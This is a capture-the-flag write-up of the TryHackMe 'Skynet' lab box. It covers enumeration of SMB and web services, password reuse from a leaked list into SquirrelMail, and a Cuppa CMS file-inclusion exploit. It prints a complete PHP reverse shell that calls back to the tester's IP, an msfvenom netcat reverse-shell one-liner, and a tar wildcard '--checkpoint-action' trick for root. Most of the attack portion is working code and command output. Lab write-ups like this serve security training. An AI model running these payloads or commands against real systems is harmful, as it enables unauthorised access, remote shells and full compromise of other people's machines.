

Links: [[TryHackMe Boxes]]
#linux 

# Skynet
---
### System IP: 10.10.155.220
Note that we restarted the system and it changed it's IP to 10.10.45.74 for the Privilege escalation section

#### Service Enumeration

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.155.220      | **TCP**: 22,80,110,139,143,445

**Nmap Scan Results:**
```
# Nmap 7.91 scan initiated Thu Feb 11 20:46:25 2021 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/ttl0/autorecon/results/10.10.155.220/scans/_quick_tcp_nmap.txt -oX /home/ttl0/autorecon/results/10.10.155.220/scans/xml/_quick_tcp_nmap.xml 10.10.155.220
Nmap scan report for 10.10.155.220
Host is up, received user-set (0.093s latency).
Scanned at 2021-02-11 20:46:27 EST for 20s
Not shown: 994 closed ports
Reason: 994 resets
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKeTyrvAfbRB4onlz23fmgH5DPnSz07voOYaVMKPx5bT62zn7eZzecIVvfp5LBCetcOyiw2Yhocs0oO1/RZSqXlwTVzRNKzznG4WTPtkvD7ws/4tv2cAGy1lzRy9b+361HHIXT8GNteq2mU+boz3kdZiiZHIml4oSGhI+/+IuSMl5clB5/FzKJ+mfmu4MRS8iahHlTciFlCpmQvoQFTA5s2PyzDHM6XjDYH1N3Euhk4xz44Xpo1hUZnu+P975/GadIkhr/Y0N5Sev+Kgso241/v0GQ2lKrYz3RPgmNv93AIQ4t3i3P6qDnta/06bfYDSEEJXaON+A9SCpk2YSrj4A7
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0UWS0x1ZsOGo510tgfVbNVhdE5LkzA4SWDW/5UjDumVQ7zIyWdstNAm+lkpZ23Iz3t8joaLcfs8nYCpMGa/xk=
|   256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICHVctcvlD2YZ4mLdmUlSwY8Ro0hCDMKGqZ2+DuI0KFQ
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        syn-ack ttl 63 Dovecot pop3d
|_pop3-capabilities: SASL AUTH-RESP-CODE UIDL RESP-CODES PIPELINING TOP CAPA
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack ttl 63 Dovecot imapd
|_imap-capabilities: ENABLE LITERAL+ Pre-login listed have SASL-IR post-login capabilities IMAP4rev1 IDLE OK LOGIN-REFERRALS more LOGINDISABLEDA0001 ID
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m50s, median: 0s
| nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SKYNET<00>           Flags: <unique><active>
|   SKYNET<03>           Flags: <unique><active>
|   SKYNET<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 42124/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 16355/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 16447/udp): CLEAN (Failed to receive data)
|   Check 4 (port 43511/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2021-02-11T19:46:41-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-12T01:46:42
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 11 20:46:47 2021 -- 1 IP address (1 host up) scanned in 22.71 seconds

```

We found an SMB port open, we enumerate with nmap scripts and find the following:
```
# Nmap 7.91 scan initiated Thu Feb 11 20:46:50 2021 as: nmap -vv --reason -Pn -sV -p 139 "--script=banner,(nbstat or smb* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" --script-args=unsafe=1 -oN /home/ttl0/autorecon/results/10.10.155.220/scans/tcp_139_smb_nmap.txt -oX /home/ttl0/autorecon/results/10.10.155.220/scans/xml/tcp_139_smb_nmap.xml 10.10.155.220
Nmap scan report for 10.10.155.220
Host is up, received user-set (0.092s latency).
Scanned at 2021-02-11 20:46:53 EST for 337s

PORT    STATE SERVICE     REASON         VERSION
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET

Host script results:
| nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SKYNET<00>           Flags: <unique><active>
|   SKYNET<03>           Flags: <unique><active>
|   SKYNET<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb-enum-domains: 
|   SKYNET
|     Groups: n/a
|     Users: milesdyson
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|     Account lockout disabled
|   Builtin
|     Groups: n/a
|     Users: n/a
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|_    Account lockout disabled
| smb-enum-sessions: 
|_  <nobody>
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.155.220\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 9
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.155.220\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.155.220\milesdyson: 
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.155.220\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-enum-users: 
|   SKYNET\milesdyson (RID: 1000)
|     Full name:   
|     Description: 
|_    Flags:       Normal user account
| smb-ls: Volume \\10.10.155.220\anonymous
| SIZE   TIME                 FILENAME
| <DIR>  2020-11-26T16:04:00  .
| <DIR>  2019-09-17T07:20:17  ..
| 163    2019-09-18T03:04:59  attention.txt
| <DIR>  2019-09-18T04:42:16  logs
| 0      2019-09-18T04:42:13  logs\log2.txt
| 471    2019-09-18T04:41:59  logs\log1.txt
| 0      2019-09-18T04:42:16  logs\log3.txt
|_
| smb-mbenum: 
|   DFS Root
|     SKYNET  0.0  skynet server (Samba, Ubuntu)
|   Master Browser
|     SKYNET  0.0  skynet server (Samba, Ubuntu)
|   Print server
|     SKYNET  0.0  skynet server (Samba, Ubuntu)
|   Server
|     SKYNET  0.0  skynet server (Samba, Ubuntu)
|   Server service
|     SKYNET  0.0  skynet server (Samba, Ubuntu)
|   Unix server
|     SKYNET  0.0  skynet server (Samba, Ubuntu)
|   Windows NT/2000/XP/2003 server
|     SKYNET  0.0  skynet server (Samba, Ubuntu)
|   Workstation
|_    SKYNET  0.0  skynet server (Samba, Ubuntu)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2021-02-11T19:47:06-06:00
|_smb-print-text: false
| smb-protocols:
|   dialects:
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.02
|     2.10
|     3.00
|     3.02
|_    3.11
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb-system-info: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-061: false
| smb2-capabilities:
|   2.02:
|     Distributed File System
|   2.10:
|     Distributed File System
|   3.00:
|     Distributed File System
|   3.02:
|     Distributed File System
|   3.11:
|_    Distributed File System
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-12T01:47:06
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

```

We see potential user account: milesdyson

We found an anonymous directory so we download the content of it:

```
smbget -R smb://10.10.155.220/anonymous
Password for [ttl0] connecting to //anonymous/10.10.155.220: 
Using workgroup WORKGROUP, user ttl0
smb://10.10.155.220/anonymous/attention.txt
smb://10.10.155.220/anonymous/logs/log2.txt
smb://10.10.155.220/anonymous/logs/log1.txt         
smb://10.10.155.220/anonymous/logs/log3.txt             
Downloaded 634b in 7 seconds

```

Opening attention.txt we know that all Skynet employees changed their password recently:

```
cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

We find a log of last passwords:

```
└─$ cat logs/log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator

```

Using gobuster we enumerate the webserver and find:

```
/admin (Status: 301) [Size: 314]
/config (Status: 301) [Size: 315]
/css (Status: 301) [Size: 312]
/index.html (Status: 200) [Size: 523]
/index.html (Status: 200) [Size: 523]
/js (Status: 301) [Size: 311]
/server-status (Status: 403) [Size: 278]
/squirrelmail (Status: 301) [Size: 321]

```

We browser at  `http://10.10.155.220/squirrelmail/` and get redirected to `http://10.10.155.220/squirrelmail/src/login.php` where we find a login.


We try the username milesdyson with the words found in the log.txt file for password and we successfuly login with:
```
username: milesdyson
password: cyborg007haloterminator

```


We found in an email from skynet that says that the password for ==milesdyson== was changed to 
```
)s{A&2Z=F^n_E.B`
```

We use these credentials to access milesdyson smb drive

```
└─$ smbclient //10.10.155.220/milesdyson -U milesdyson
Enter WORKGROUP\milesdyson's password:

```
We browse the files and find an ==important.note.txt==. We download it and read it

```
─$ smbget -U milesdyson -R smb://10.10.155.220/milesdyson/notes/important.txt && cat important.txt
Password for [milesdyson] connecting to //milesdyson/10.10.155.220: 
Using workgroup WORKGROUP, user milesdyson
smb://10.10.155.220/milesdyson/notes/important.txt                                                                                                                                                                                         
Downloaded 117b in 6 seconds

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

```

From note point #1 we see a a beta CMS website and browser to it: `http://10.10.155.220/45kra24zxs28v3yd/`


We re-enumerated with gobuster this new URL:

```
gobuster dir -u http://10.10.155.220:80/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp"
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.155.220:80/45kra24zxs28v3yd/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,403,500
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     php,asp,aspx,jsp,txt,html
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/02/11 22:30:56 Starting gobuster
===============================================================
http://10.10.155.220:80/45kra24zxs28v3yd/index.html (Status: 200) [Size: 418]
http://10.10.155.220:80/45kra24zxs28v3yd/administrator (Status: 301) [Size: 339]

```

We browse to `http://10.10.155.220:80/45kra24zxs28v3yd/administrator`


We look for any know vulnerabilities on searchsploit and find a LFI:

```
─$ searchsploit cuppa
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                                                          | php/webapps/25971.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

We try the exploit to get known users and browse:

```
http://10.10.155.220/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false postfix:x:113:121::/var/spool/postfix:/bin/false mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false 

```


**Initial Shell Vulnerability Exploited:**

We've proven that we can do LFI. We will try an RFI attack. 
First we create a reverse PHP shell file:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.1.171';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> 

```

We start the web server to host the file:

```
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

We start a listener:

```
└─$ nc -lvnp 1337
listening on [any] 1337 ...

```

We browse to this file at the following URL

```
http://10.10.155.220/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.1.171/shell.php
```

We get a shell on our listener:

```
listening on [any] 1337 ...
connect to [10.9.1.171] from (UNKNOWN) [10.10.155.220] 37784
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:09:08 up  2:30,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```


**Info about where the initial shell was acquired from**

**Vulnerability Explanation:**
Cuppa CMS is vulnerable to a local and remote file inclusion attacks. We were able to get a reverse shell by having the server read a remote PHP file.

**Vulnerability Fix:**
Upgrade Cuppa CMS to a non vulnerable version.

**Severity:**
Critical

**Proof of Concept Code Here:**

**Local.txt Proof Screenshot**



**Local.txt Contents**
```
$ hostname && whoami && cat /home/milesdyson/user.txt && ip a
skynet
www-data
7ce5c2109a40f958099283600a9ae807
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:36:df:cd:4c:e9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.155.220/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::36:dfff:fecd:4ce9/64 scope link 
       valid_lft forever preferred_lft forever

```

#### Privilege Escalation

We find a cron job running as root
```
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh

```

We take a look at the bash script being run:
```
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

We see that backup.sh is using tar with a wildcard and the process is running in the folder  `/var/www/html` where we have write access to.

**Vulnerability Exploited:**
We generate a reverse shell payload with msfvenom:

```
└─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.9.1.171 lport=31337 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 93 bytes
mkfifo /tmp/mtboj; nc 10.9.1.171 31337 0</tmp/mtboj | /bin/sh >/tmp/mtboj 2>&1; rm /tmp/mtboj
```

We start a netcat listener on our local computer to catch the shell:
```
└─$ nc -lvnp 31337
listening on [any] 31337 ...

```

On the remote host, we go to the directory and perform a wildcard tar argument exploitation technique:
```
$ cd /var/www/html
$ touch \-- "\--checkpoint=1"
touch \-- "\--checkpoint=1"
$ touch -- "--checkpoint-action=exec=sh shell.sh"
touch -- "--checkpoint-action=exec=sh shell.sh"
$ echo "mkfifo /tmp/mtboj; nc 10.9.1.171 31337 0</tmp/mtboj | /bin/sh >/tmp/mtboj 2>&1; rm /tmp/mtboj" > shell.sh
echo "mkfifo /tmp/mtboj; nc 10.9.1.171 31337 0</tmp/mtboj | /bin/sh >/tmp/mtboj 2>&1; rm /tmp/mtboj" > shell.sh

```

**Vulnerability Explanation:**
An application running with a wildcard argument `*` allows the Unix shell to interpret files beginning with a hyphen (-) character as command line arguments that can be executed with elevated privileges. By using tar with –checkpoint-action, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts the application. In this case, root was running the tar command and we executed a reverse shell exploit using netcat.

**Vulnerability Fix:**
Do not run a wildcard argument with elevated privileges or specify the exact files to be backed up when using tar.

**Severity:**
Critical

**Exploit Code:**
We start a netcat listener on our local computer to catch the shell:
```
└─$ nc -lvnp 31337
listening on [any] 31337 ...

```

We perform these commands on the remote host
```
$ cd /var/www/html
$ touch \-- "\--checkpoint=1"
touch \-- "\--checkpoint=1"
$ touch -- "--checkpoint-action=exec=sh shell.sh"
touch -- "--checkpoint-action=exec=sh shell.sh"
$ echo "mkfifo /tmp/mtboj; nc 10.9.1.171 31337 0</tmp/mtboj | /bin/sh >/tmp/mtboj 2>&1; rm /tmp/mtboj" > shell.sh
echo "mkfifo /tmp/mtboj; nc 10.9.1.171 31337 0</tmp/mtboj | /bin/sh >/tmp/mtboj 2>&1; rm /tmp/mtboj" > shell.sh

```

**Proof Screenshot Here:**


**Proof.txt Contents:**
```
hostname && whoami && cat /root/root.txt && ip a
skynet
root
3f0372db24753accc7179a282cd6a949
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:61:bf:8b:96:8d brd ff:ff:ff:ff:ff:ff
    inet 10.10.45.74/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::61:bfff:fe8b:968d/64 scope link
       valid_lft forever preferred_lft forever

```